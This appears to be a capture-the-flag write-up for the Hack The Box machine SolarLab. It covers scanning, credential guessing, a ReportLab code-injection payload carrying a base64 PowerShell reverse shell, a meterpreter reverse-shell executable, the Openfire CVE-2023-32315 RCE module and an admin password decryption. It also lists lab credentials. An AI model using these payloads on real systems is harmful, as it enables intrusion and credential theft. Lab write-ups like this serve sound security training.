

# SolarLab

## Nmap

### All ports

```
└─$ sudo nmap -p- -T 5 10.10.11.16 -oA allports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-17 11:33 EDT
Nmap scan report for 10.10.11.16
Host is up (0.12s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
6791/tcp open  hnm

Nmap done: 1 IP address (1 host up) scanned in 248.59 seconds
```

### Aggressive

```
└─$ sudo nmap -p 80,135,139,445,6791 -A 10.10.11.16 -oA agressive
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-17 11:39 EDT
Nmap scan report for 10.10.11.16
Host is up (0.15s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          nginx 1.24.0
|_http-title: Did not follow redirect to http://solarlab.htb/
|_http-server-header: nginx/1.24.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
6791/tcp open  http          nginx 1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
|_http-server-header: nginx/1.24.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-17T15:40:02
|_  start_date: N/A
|_clock-skew: -2s

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   118.90 ms 10.10.14.1
2   197.86 ms 10.10.11.16

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.91 seconds

```

* A second webserver running on port 6791 - http://report.solarlab.htb:6791/

### SNMP UDP Scan

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

*


```
sudo echo "\n\n10.10.11.16     solarlab.htb report.solarlab.htb" >> /etc/hosts
```

## Port 6791 - HTTP report.solarlab.htb

<figure><figcaption></figcaption></figure>

<figure><figcaption><p>possible user enumeration?</p></figcaption></figure>

### Burp

#### Intruder - username enumeration

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* found 3 users:
  * AlexanderK
  * ClaudiaS
  * BlakeB

#### Trying Passwords from spreadsheet using found usernames

#### Cluster Bomb

<figure><figcaption></figcaption></figure>

```
POST /login HTTP/1.1
Host: report.solarlab.htb:6791
Content-Length: 47
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://report.solarlab.htb:6791
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://report.solarlab.htb:6791/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

username=BlakeB&password=ThisCanB3typedeasily1@
```

```
BlakeB
ThisCanB3typedeasily1@
```

<figure><figcaption></figcaption></figure>

### Exploit

<figure><figcaption></figcaption></figure>

* PDF-1.4 ReportLab Generated PDF document http://www.reportlab.com

<figure><figcaption></figcaption></figure>

```html
<p><font color="[ [ getattr(pow,Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMgA0ACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
exploit
</font></p>
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>

### SqlMap

<figure><figcaption></figcaption></figure>

```
┌──(support㉿KL24)-[~/Documents/htb/solarlab]
└─$ sqlmap -r report-login.req  -p username --risk 3 --level 5
```

## Port 80 - HTTP

### Whatweb

```
└─$ whatweb http://solarlab.htb
http://solarlab.htb [200 OK] Bootstrap, 
Country[RESERVED][ZZ], HTML5, 
HTTPServer[nginx/1.24.0], IP[10.10.11.16], 
JQuery[2.1.0], Meta-Author[Jewel Theme], 
Modernizr[2.8.0.min], Script[text/javascript], 
Title[SolarLab Instant Messenger], X-UA-Compatible[IE=edge], nginx[1.24.0]
```

<figure><figcaption><p>potential usernames</p></figcaption></figure>

### FFUF

```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://solarlab.htb -H "Host: FUZZ.solarlab.htb" -fs 169

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://solarlab.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.solarlab.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

:: Progress: [114441/114441] :: Job [1/1] :: 142 req/sec :: Duration: [0:13:06] :: Errors: 0 ::

```

### Dirb

```
└─$ dirb http://solarlab.htb /usr/share/wordlists/dirb/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri May 17 11:48:30 2024
URL_BASE: http://solarlab.htb/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://solarlab.htb/ ----
==> DIRECTORY: http://solarlab.htb/assets/                                                                          
+ http://solarlab.htb/con (CODE:500|SIZE:579)                                                                       
^[[A                                                                                                                 ==> DIRECTORY: http://solarlab.htb/images/                                                                          
==> DIRECTORY: http://solarlab.htb/Images/                                                                          
+ http://solarlab.htb/index.html (CODE:200|SIZE:16210)                                                              
+ http://solarlab.htb/nul (CODE:500|SIZE:579)                                                                       
                                                                                                                    
(!) FATAL: Too many errors connecting to host
    (Possible cause: COULDNT CONNECT)
                                                                               
-----------------
END_TIME: Fri May 17 12:07:34 2024
DOWNLOADED: 4006 - FOUND: 3
```

## Port 445 - SMB

### SMBclient

```
└─$ smbclient -N -L //solarlab.htb/

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Documents       Disk      
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to solarlab.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)

```

```
└─$ smbclient -N  //solarlab.htb/Documents
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Apr 26 10:47:14 2024
  ..                                 DR        0  Fri Apr 26 10:47:14 2024
  concepts                            D        0  Fri Apr 26 10:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 05:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 07:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 14:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 14:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 14:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 05:35:57 2023

                7779839 blocks of size 4096. 1864692 blocks available

```

```
smb: \> cd "My Pictures"
smb: \My Pictures\> ls
NT_STATUS_ACCESS_DENIED listing \My Pictures\*
smb: \My Pictures\> cd ..
smb: \> cd "My Videos"
smb: \My Videos\> ls
NT_STATUS_ACCESS_DENIED listing \My Videos\*
smb: \My Videos\> 

```

### Enumerating shared documents

<figure><figcaption></figcaption></figure>

<table data-header-hidden><thead><tr><th width="166"></th><th></th><th></th><th width="208"></th><th></th><th></th><th></th><th></th></tr></thead><tbody><tr><td>Password File</td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td></tr><tr><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td></tr><tr><td>Alexander's SSN</td><td><br></td><td>123-23-5424</td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td></tr><tr><td>Claudia's SSN</td><td><br></td><td>820-378-3984</td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td></tr><tr><td>Blake's SSN</td><td><br></td><td>739-1846-436</td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td></tr><tr><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td></tr><tr><td>Site</td><td>Account#</td><td>Username</td><td>Password</td><td>Security Question</td><td>Answer</td><td>Email</td><td>Other information</td></tr><tr><td>Amazon.com</td><td>101-333</td><td><a href="mailto:john.doe@gmail.com">Alexander.knight@gmail.com</a></td><td>al;ksdhfewoiuh</td><td>What was your mother's maiden name?</td><td>Blue</td><td><a href="mailto:john.doe@gmail.com">Alexander.knight@gmail.com</a></td><td><br></td></tr><tr><td>Pefcu</td><td>A233J</td><td>KAlexander</td><td>dkjafblkjadsfgl</td><td>What was your high school mascot</td><td>Pine Tree</td><td><a href="mailto:john.doe@gmail.com">Alexander.knight@gmail.com</a></td><td><br></td></tr><tr><td>Chase</td><td><br></td><td><a href="mailto:john.doe@gmail.com">Alexander.knight@gmail.com</a></td><td>d398sadsknr390</td><td>What was the name of your first pet?</td><td>corvette</td><td><a href="mailto:Claudia.springer@gmail.com">Claudia.springer@gmail.com</a></td><td><br></td></tr><tr><td>Fidelity</td><td><br></td><td>blake.byte</td><td>ThisCanB3typedeasily1@</td><td>What was your mother's maiden name?</td><td>Helena</td><td><a href="mailto:blake@purdue.edu">blake@purdue.edu</a></td><td><br></td></tr><tr><td>Signa</td><td><br></td><td>AlexanderK</td><td>danenacia9234n</td><td>What was your mother's maiden name?</td><td>Poppyseed muffins</td><td><a href="mailto:john.doe@gmail.com">Alexander.knight@gmail.com</a></td><td>account number: 1925-47218-30</td></tr><tr><td><br></td><td><br></td><td>ClaudiaS</td><td>dadsfawe9dafkn</td><td>What was your mother's maiden name?</td><td>yellow crayon</td><td><a href="mailto:Claudia.springer@gmail.com">Claudia.springer@gmail.com</a></td><td>account number: 3872-03498-45</td></tr><tr><td>Comcast</td><td>JHG3434</td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td></tr><tr><td>Vectren</td><td>YUIO576</td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td></tr><tr><td>Verizon</td><td>1111-5555-33</td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td><td><br></td></tr></tbody></table>


<figure><figcaption><p><a href="mailto:SKILLSPOOL@WOODGROUP.COM">SKILLSPOOL@WOODGROUP.COM</a></p></figcaption></figure>

### Enum4linux

```
└─$ enum4linux solarlab.htb -A -C
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri May 17 12:09:58 2024

 =========================================( Target Information )=========================================

Target ........... solarlab.htb
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ============================( Enumerating Workgroup/Domain on solarlab.htb )============================


[E] Can't find workgroup/domain


 ================================( Nbtstat Information for solarlab.htb )================================

Looking up status of 10.10.11.16
No reply from 10.10.11.16

 ===================================( Session Check on solarlab.htb )===================================


[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.

                                                                                              
```

## Initial Foothold

```
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.124 LPORT=443 -f exe > upgrade.exe 
└─$ python3 -m http.server  
```

```
PS C:\Users\blake\downloads> wget http://10.10.14.124:8000/upgrade.exe -o upgrade.exe
./upgrade.exe
```

<pre><code>msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp                                                                                                                                                               
payload => windows/x64/meterpreter/reverse_tcp                                                                                                                                                                                              
msf6 exploit(multi/handler) > options                                                                                                                                                                                                       
                                                                                                                                                                                                                                            
Payload options (windows/x64/meterpreter/reverse_tcp):                                                                                                                                                                                      
                                                                                                                                                                                                                                            
   Name      Current Setting  Required  Description                                                                                                                                                                                         
   ----      ---------------  --------  -----------                                                                                                                                                                                         
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)                                                                                                                                           
   LHOST                      yes       The listen address (an interface may be specified)                                                                                                                                                  
   LPORT     4444             yes       The listen port                                                                                                                                                                                     
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
Exploit target:                                                                                                                                                                                                                             
                                                                                                                                                                                                                                            
   Id  Name                                                                                                                                                                                                                                 
   --  ----                                                                                                                                                                                                                                 
   0   Wildcard Target                                                                                                                                                                                                                      
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
View the full module info with the info, or info -d command.                                                                                                                                                                                
                                                                                                                                                                                                                                            
msf6 exploit(multi/handler) > set lhost tun0                                                                                                                                                                                                
lhost => 10.10.14.124                                                                                                                                                                                                                       
msf6 exploit(multi/handler) > set lport 443                                                                                                                                                                                                 
lport => 443 
<strong>
</strong><strong>msf6 exploit(multi/handler) > run
</strong>
[*] Started reverse TCP handler on 10.10.14.124:443                                                                                                                                                                                         
[*] Sending stage (201798 bytes) to 10.10.11.16                                                                                                                                                                                             
[*] Meterpreter session 1 opened (10.10.14.124:443 -> 10.10.11.16:53947) at 2024-05-18 08:54:54 -0400                                                                                                                                       
                                                                                                                                                                                                                                            
meterpreter >                                                                                                                                                                                                                               
meterpreter > background

msf6 exploit(multi/handler) > search local_exploit_suggester

Matching Modules                                                                                                                                                                                                                            
================                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
   #  Name                                      Disclosure Date  Rank    Check  Description                                                                                                                                                 
   -  ----                                      ---------------  ----    -----  -----------                                                                                                                                                 
   0  post/multi/recon/local_exploit_suggester  .                normal  No     Multi Recon Local Exploit Suggester                                                                                                                         
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester                                                                                                                          
                                                                                                                                                                                                                                            
msf6 exploit(multi/handler) > use 0                                                                                                                                                                                                         
msf6 post(multi/recon/local_exploit_suggester) > options                                                                                                                                                                                    
                                                                                                                                                                                                                                            
Module options (post/multi/recon/local_exploit_suggester):                                                                                                                                                                                  
                                                                                                                                                                                                                                            
   Name             Current Setting  Required  Description                                                                                                                                                                                  
   ----             ---------------  --------  -----------                                                                                                                                                                                  
   SESSION                           yes       The session to run this module on                                                                                                                                                            
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits                                                                                                                                   
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
View the full module info with the info, or info -d command.                                                                                                                                                                                
                                                                                                                                                                                                                                            
msf6 post(multi/recon/local_exploit_suggester) > set session 1                                                                                                                                                                              
session => 1                                                                                                                                                                                                                                
msf6 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.11.16 - Valid modules for session 1:                                                                        
============================                                                                                          
                                                                                                                      
 #   Name                                                           Potentially Vulnerable?  Check Result             
 -   ----                                                           -----------------------  ------------             
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.                                                                                                           
 2   exploit/windows/local/bypassuac_fodhelper                      Yes                      The target appears to be vulnerable.                                                                                                           
 3   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.                                                                                                           
 4   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.                                                                                            
 5   exploit/windows/local/win_error_cve_2023_36874                 Yes                      The target appears to be vulnerable.  
</code></pre>

* All recommended privilege escalation exploits failed.

### File Enumeration

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```
┌──(support㉿KL24)-[~/Documents/htb/solarlab]
└─$ sqlite3 users.db
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .databases
main: /home/support/Documents/htb/solarlab/users.db r/w
sqlite> .tables
user
sqlite> select * from user;
1|blakeb|ThisCanB3typedeasily1@
2|claudias|007poiuytrewq
3|alexanderk|HotP!fireguard

```

### Looking for open ports

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Proxychain

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```
┌──(support㉿KL24)-[~/Documents/htb/solarlab]
└─$ proxychains curl http://127.0.0.1:9090/login.jsp?url=%2Findex.jsp
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Exploit

```
msfconsole

search openfire server

use multi/http/openfire_auth_bypass_rce_cve_2023_32315

set rhosts 127.0.0.1

set lhost tun0

run
```

<figure><figcaption></figcaption></figure>

```
CREATE USER SA PASSWORD DIGEST 'd41d8cd98f00b204e9800998ecf8427e'                                                                                                                                                                           
ALTER USER SA SET LOCAL TRUE                                                                                                                                                                                                                
CREATE SCHEMA PUBLIC AUTHORIZATION DBA                                                                                
SET SCHEMA PUBLIC                                                                                                                                                                                                                           
CREATE MEMORY TABLE PUBLIC.OFUSER(USERNAME VARCHAR(64) NOT NULL,STOREDKEY VARCHAR(32),SERVERKEY VARCHAR(32),SALT VARCHAR(32),ITERATIONS INTEGER,PLAINPASSWORD VARCHAR(32),ENCRYPTEDPASSWORD VARCHAR(255),NAME VARCHAR(100),EMAIL VARCHAR(100
),CREATIONDATE VARCHAR(15) NOT NULL,MODIFICATIONDATE VARCHAR(15) NOT NULL,CONSTRAINT OFUSER_PK PRIMARY KEY(USERNAME))


INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')

INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)

```

<table><thead><tr><th>username</th><th>stored key</th><th>server key</th><th width="182">salt</th><th>iterations</th><th width="53">plain password</th><th width="194">encrypted password</th><th width="108">name</th><th>email</th></tr></thead><tbody><tr><td><pre><code>admin
</code></pre></td><td><pre><code>gjMoswpK+HakPdvLIvp6eLKlYh0=
</code></pre></td><td><pre><code>9MwNQcJ9bF4YeyZDdns5gvXp620=
</code></pre></td><td><pre><code>yidQk5Skw11QJWTBAloAb28lYHftqa0x
</code></pre></td><td><pre><code>4096
</code></pre></td><td>null</td><td><pre><code>becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442
</code></pre></td><td><pre><code>Administrator
</code></pre></td><td><pre><code>admin@solarlab.htb
</code></pre></td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr><tr><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td><td></td></tr></tbody></table>

```
git clone https://github.com/MattiaCossu/Openfire-Password-Decryptor
cd Openfire-Password-Decryptor
pip3 install -r requirements.txt

❯ python3 main.py -p becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 -k hGXiFzsKaAeYLjn
Decrypted password: ThisPasswordShouldDo!@
```

```
RunasCs.exe administrator ThisPasswordShouldDo!@ "cmd /c type C:\users\administrator\desktop\root.txt"
```
